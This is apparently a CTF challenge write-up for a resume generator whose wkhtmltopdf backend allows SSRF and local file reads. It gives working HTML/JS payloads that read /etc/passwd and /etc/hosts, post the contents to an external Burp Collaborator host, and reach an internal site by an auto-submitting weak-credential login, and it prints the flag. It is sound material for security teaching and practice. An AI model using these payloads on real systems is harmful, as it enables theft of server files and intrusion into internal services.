# Resume

### Challenge Details

This challenge is testing on SSRF(I personally think it is much more than a SSRF, just imagine a scenario where a browser reside in the internal network is executing arbitrary HTML/JS file you feed it). 

A resume generator website, user can enter their personal details, backend will generate a HTML resume template and call `wkhtmltopdf` to generate the PDF file from that HTML resume. 

In the older version of wkhtmltopdf(prior of the latest 12.6, refer to [wkhtmltopdf/wkhtmltopdf#4536](https://github.com/wkhtmltopdf/wkhtmltopdf/issues/4536) ), it is vulnerable to local file disclosure. 

I am hosting another website locally, its domain will be resolved via /etc/hosts. This website requires login, but common parameters and weak credentials are being used. Player needs to craft an auto-submitting form to login to the website to get the flag.

### Setup Instruction

```
docker-compose up -d
# optional
add a cronjob to delete the generated pdf every 5 minutes.
```

### Possible hints

> Have you checked what is being used to generate pdf?

> Have you checked commons files on the Linux file system?

> sometimes a single point of failure might just arise from a weak credential.

### Key concept

- 302 redirect usage in SSRF
- XSS techniques to read content.

- XSS techniques to automate form submission

### Solution

##### Read file

This will not work:

```html
<iframe src="file:///etc/passwd"></iframe>
```

But this will work:

```html
<iframe src="https://yourownwebsite/ssrf.php?a=file:///etc/passwd"></iframe>
```

when visiting `https://yourownwebsite/ssrf.php?a=file:///etc/passwd`, you will get a 302 response redirecting to `file:///etc/passwd`, and the contents of `/etc/passwd` will be inside the generated PDF.

------

Another way is to use XMLHTTPRequest, this would work probably because SOP is guaranteed in the process of generating the PDF, hence the content can be retrieved.

```html
<script>
    x = new XMLHttpRequest;
    x.onload = function(){
    y = new XMLHttpRequest;
    y.open('POST', "http://0vwlcrnm27hbj5zyz8kugdcshjn9by.burpcollaborator.net/", true);
    y.setRequestHeader("Content-Type","text/plain");
    y.send(this.responseText);
    };
    x.open("GET","file:///etc/passwd");
    x.send();
</script>
```

#####  Found a local website

```javascript
<script>
    x = new XMLHttpRequest;
    x.onload = function(){
    y = new XMLHttpRequest;
    y.open('POST', "http://0vwlcrnm27hbj5zyz8kugdcshjn9by.burpcollaborator.net/", true);
    y.setRequestHeader("Content-Type","text/plain");
    y.send(this.responseText);
    };
    x.open("GET","file:///etc/hosts");
    x.send();
</script>
```

```
127.0.0.1 topsecret.local
```

##### Read the contents of `topsecret.local`

Directly curling with modified Host header to the server would not work because the website is serving at 127.0.0.1, refer to the following configuration:

```
<VirtualHost 127.0.0.1:80>
```

Need to let wkthmltopdf to request for us

```
<iframe src="http://topsecret.local" width=600 height=600> </iframe>
```

The website content can be viewed in the generated pdf.

And it's just a simple login form.(with weak credentials being used.)

##### Find the parameters

Need to read `/etc/apache2/apache2.conf` to find another virtual host configuration file at `/etc/apache2/sites-enabled/topsecret.local.conf`, then read it to find the document path at `/var/www/70p53CR37/`, then read `/var/www/70p53CR37/index.html` to find the correct parameters to be used in the login request:

```html
           <div class="form-group">
                <label>Username</label>
                <input type="text" name="username_VmyK7y39pX99A">
            </div>
            <div class="form-group">
                <label>Password</label>
                <input type="password" name="password_6FB8YUthKI3dK">
            </div>
```

##### Get the flag

with weak credentials being used. Craft a auto-submitting form will give you the flag

```html
<form id='asdf' action="http://topsecret.local/login.php" method="POST">
<input name='username_VmyK7y39pX99A' value='admin'>
<input name='password_6FB8YUthKI3dK' value='admin'>
<form>
<script>
document.getElementById('asdf').submit();
</script>
```

### Learning objective

the same as key concepts?

### Flag

```
greyhats{7h12_12_MOr3_7HaN_AN_55rf}
```

